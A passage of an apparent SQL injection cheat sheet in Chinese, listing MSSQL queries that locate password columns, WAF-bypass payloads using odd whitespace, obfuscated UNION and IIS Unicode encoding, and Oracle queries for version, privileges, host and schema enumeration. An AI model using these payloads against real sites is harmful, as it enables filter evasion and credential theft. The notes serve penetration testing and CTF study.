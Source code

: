- 快速查找帶關鍵字的表
    - `SELECT sysobjects.name as tablename, syscolumns.name as columnname FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id WHERE sysobjects.xtype = 'U' AND (syscolumns.name LIKE '%pass%' or syscolumns.name LIKE '%pwd%' or syscolumns.name LIKE '%first%');`


- 繞 WAF
    - Non-standard whitespace character:
        - `1%C2%85union%C2%85select%C2%A0null,@@version,null--`
    - 混淆 UNION
        - `0eunion+select+null,@@version,null--`
    - Unicode 繞過
        - IIS 對 Unicode 編碼是可以解析的，即 `s%u0065lect` 會被解析為 select

## Oracle

- `SELECT` 語句必須包含 `FROM`
    - 未指定來源，可以用 `dual` 表
- 子字串：
    - `SUBSTR('abc', 1, 1) => 'a'`
- 空白字元
    - `00 0A 0D 0C 09 20`
- IF語句
    - `IF condition THEN true-part [ELSE false-part] END IF`
- 註解：
    - `--`
    - `/**/`
- 不支援 limit
    - 改用 rownum
    - `select table_name from (select rownum no, table_name from all_tables) where no=1`
- 單雙引號
    - 單引號: string, date
    - 雙引號: identifier (table name, column name, ...)
- 其它
    - `SYS.DATABASE_NAME`
        - current database
    - `USER`
        - current user
        - or `sys.login_user`
    - `SELECT role FROM session_roles`
        - current role
    - `SELECT privilege FROM user_sys_privs`
        - system privileges granted to the current user
    - `SELECT privilege FROM role_sys_privs`
        - privs the current role has
    - `SELECT privilege FROM session_privs`
        - the all privs that current user has = user_sys_privs + role_sys_privs
    - `SELECT banner FROM v$version where rownum=1`
        - database version
    - `SELECT host_name FROM v$instance;`
        - Name of the host machine
    - `utl_inaddr.get_host_address`
        - 本機IP
    - `select utl_inaddr.get_host_name('87.87.87.87') from dual`
        - IP反解
- 庫名(schema)
    - `SELECT DISTINCT OWNER FROM ALL_TABLES`
- 表名
    - `SELECT OWNER, TABLE_NAME FROM ALL_TABLES`
- Column
    - `SELECT OWNER, TABLE_NAME, COLUMN_NAME FROM ALL_TAB_COLUMNS`
- Union Based
    - Column 型態必須相同
    - 可用 `NULL` 來避免錯誤